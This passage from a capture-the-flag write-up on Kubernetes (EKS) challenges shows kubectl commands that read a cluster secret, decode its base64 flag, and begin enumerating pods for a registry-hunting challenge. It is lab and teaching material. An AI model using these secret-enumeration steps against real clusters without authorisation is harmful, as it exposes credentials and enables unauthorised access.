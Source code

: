 There is one secret `log-rotate`, we can see its content by outputting it in the YAML format.

```
# kubectl get secrets log-rotate -o yaml

apiVersion: v1
data:
  flag: d2l6X2Vrc19jaGFsbGVuZ2V7b21nX292ZXJfcHJpdmlsZWdlZF9zZWNyZXRfYWNjZXNzfQ==
kind: Secret
metadata:
  creationTimestamp: "2023-11-01T13:02:08Z"
  name: log-rotate
  namespace: challenge1
  resourceVersion: "890951"
  uid: 03f6372c-b728-4c5b-ad28-70d5af8d387c
type: Opaque
```

The flag can then be decoded using the base64 CLI.

```
$ echo "d2l6X2Vrc19jaGFsbGVuZ2V7b21nX292ZXJfcHJpdmlsZWdlZF9zZWNyZXRfYWNjZXNzfQ==" | base64 -d

wiz_eks_challenge{omg_over_privileged_secret_access}
```

## Challenge 2 - Registry Hunt
The given hint:
> A thing we learned during our research: always check the container registries. For your convenience, the crane utility is already pre-installed on the machine.

The given permissions:
```
{
    "secrets": [
        "get"
    ],
    "pods": [
        "list",
        "get"
    ]
}
```

I started by checking if there are any pods running.

```
# kubectl get pods

NAME                    READY   STATUS    RESTARTS      AGE
database-pod-2c9b3a4e   1/1     Running   1 (29d ago)   66d
```

To get more details on the `database-pod-2c9b3a4e` pod, I again looked at it in the YAML formatting.
